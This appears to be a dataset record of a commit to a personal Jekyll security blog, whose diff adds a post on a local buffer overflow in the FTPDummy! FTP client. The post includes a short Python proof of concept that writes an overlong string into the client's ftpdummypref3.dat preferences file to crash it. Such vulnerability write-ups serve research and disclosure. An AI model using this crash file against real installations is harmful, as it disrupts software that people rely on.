

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-07-23-ftp-dummy.md, in a window 1280 px wide. Shown: the top 701 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-07-23-ftp-dummy.md

````diff
--- a/_posts/posts/2020-07-23-ftp-dummy.md
+++ b/_posts/posts/2020-07-23-ftp-dummy.md
@@ -6,3 +6,28 @@
 comments: false
 en: true
 ---
+
+# The Bug
+
+FTPDummy! is an ftp client which suffers from a Local Buffer Overflow when a long string is introduced in ftpdummypref3.dat.
+
+Directory listing:
+
+()
+
+PoC code:
+
+```term
+import struct
+
+buffer = "\x31\x0d\x0a\x31\x0d\x0a" + "A" * 5000
+
+try:
+    f = open ("ftpdummypref3.dat", "w")
+    f.write(buffer)
+    f.close()
+    print "[+] The file has been created successfully!"
+
+except:
+    print "[!] There has been an error while creating the file."
+```
````
